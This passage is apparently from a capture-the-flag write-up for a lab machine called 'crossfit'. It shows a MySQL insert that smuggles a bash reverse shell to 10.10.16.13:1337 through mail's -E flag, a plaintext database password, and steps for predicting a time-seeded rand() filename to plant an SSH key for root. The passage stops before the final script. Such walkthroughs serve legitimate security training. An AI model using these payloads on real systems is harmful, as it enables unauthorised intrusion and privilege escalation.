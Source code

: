 /usr/bin/mail has an -E arg to execute shell commands
Addins shell to mysql database
```
mysql -u crossfit -p"oeLoo~y2baeni" -D crossfit


insert into users (email) values ("-E $(bash -c 'bash -i >& /dev/tcp/10.10.16.13/1337 0>&1')");
```

We got shell as Issac


## **ROOT**

we can't run ps aux fully so I am going to run pspy64 binary to find out running process

```bash
./pspy64 -f
```

There is a binary running: /usr/bin/dbmsg

Decompiling it with ghidra
In main it generating random number with time seed
In process_data() function it is generating a random file and storing it in /var/local/

![process_data function](/assets/images/crossfit/dbmsg_code.png)


**Details**
- process_data is first generating a random number with rand() and then hashing it into md5
- Then it is creating a file with that name and storing it into /var/local/
- After that it is reading three things from the users table in crossfit database
- **it is reading and writing it into a file in order 1 3 2**
- example if i enter `hello rider boy` then it will write in file `hello boy rider`

**Exploiting**
- So we can generate our ssh key and place it into above order so that when the binary reads it from the database it prints our key in correct format
- We are going to generate that random number from time seed, since epoch time is same for every body our random number will be same.

random.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
	srand(time(0));
	printf("%d\n",rand());
	return 0;
}
```
and now a single script to do all the things
